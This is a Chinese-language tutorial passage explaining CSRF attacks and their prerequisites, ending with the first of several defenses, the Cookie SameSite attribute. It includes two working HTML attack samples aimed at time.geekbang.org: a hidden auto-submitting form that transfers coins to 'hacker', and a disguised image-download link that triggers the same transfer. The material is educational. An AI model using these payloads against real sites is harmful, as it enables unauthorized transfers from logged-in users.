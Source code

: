 当“图片”加载时，自动发起 img 的资源请求，那么服务器认为是一个转账请求的话，就直接执行转账操作了

自动发生 Post 请求

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form
      id="hacker-form"
      action="https://time.geekbang.org/sendcoin"
      method="POST"
    >
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script>
      document.getElementById("hacker-form").submit();
    </script>
  </body>
</html>
```

当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交

引诱用户点击链接

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg />
</div>
<div>
  <a
    href="https://time.geekbang.org/sendcoin?user=hacker&number=100"
    taget="_blank"
  >
    点击下载美女照片
  </a>
</div>
```

这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

CSRF 攻击必要条件：

- 第一个，目标站点一定要有 CSRF 漏洞；
- 第二个，用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态；
- 第三个，需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛。

与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本

1.充分利用好 Cookie 的 SameSite 属性，Cookie 是维护浏览器和服务器之间登陆状态的一个关键数据。

通常 CSRF 攻击是在 Cookie 上做手脚的

- 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键 Cookie 数据到服务器；
- 如果是同一个站点发起的请求，那么就需要保证 Cookie 数据正常发送。
